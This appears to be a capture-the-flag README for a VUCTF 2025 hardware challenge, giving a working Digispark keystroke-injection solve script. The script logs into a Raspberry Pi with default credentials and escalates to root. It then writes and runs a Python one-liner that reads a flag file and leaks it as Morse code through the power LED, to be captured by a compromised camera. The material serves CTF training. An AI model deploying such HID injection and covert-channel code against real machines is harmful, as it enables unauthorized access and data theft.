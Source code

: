 ## Hard hardware
This is the hard hardware challenge part of the hardware challenge series during VUCTF 2025. 

**Target system**
- Raspberry pi os lite (64 bit) no desktop (2025-05-04)
- Raspberry pi 4B


The players needs to:
1. Write a script onto the digispark which will read the flag file and blink the leds of the raspberry pi
2. Capture the led blinks through the pwned IP camera. 
3. Read the capture and extract the flag

Script to do this
```c
// login
vuctf
vuctf

// get to root
sudo su

// change led brightness to max
echo 255 > /sys/class/leds/PWR/brightness

// change led brightness to min/off
echo 0 > /sys/class/leds/PWR/brightness


```


### Solve script
```c
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void send_keys(const char* command) {
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(command);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}


void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  
  send_keys("vuctf");
  send_keys("vuctf");

  send_keys("sudo su");

  DigiKeyboard.delay(100);
  DigiKeyboard.println(F("echo \"from os import system; from time import sleep; MORSE_CODE_DICT={'A':'.-','B':'-...','C':'-.-.','D':'-..','E':'.','F':'..-.','G':'--.','H':'....','I':'..','J':'.---','K':'-.-','L':'.-..','M':'--','N':'-.','O':'---','P':'.--.','Q':'--.-','R':'.-.','S':'...','T':'-','U':'..-','V':'...-','W':'.--','X':'-..-','Y':'-.--','Z':'--..','1':'.----','2':'..---','3':'...--','4':'....-','5':'.....','6':'-....','7':'--...','8':'---..','9':'----.','0':'-----',',':'--..--','.':'.-.-.-','?':'..--..','/':'-..-.','-':'-....-'}; change_brightness=lambda b:system(f\\\"echo {b} > /sys/class/leds/PWR/brightness\\\"); [any([change_brightness(255),sleep(2 if c=='.' else 0.5),change_brightness(0),sleep(0.5 if i<len(m)-1 else 5)]) for char in open('/flag.txt','r').read() for m in [MORSE_CODE_DICT.get(char.upper(),'')] for i,c in enumerate(m)]\" > /tmp/morse.py"));
  DigiKeyboard.delay(2000);
  send_keys("python3 /tmp/morse.py");
  DigiKeyboard.delay(2000);

  for(;;){}
}


```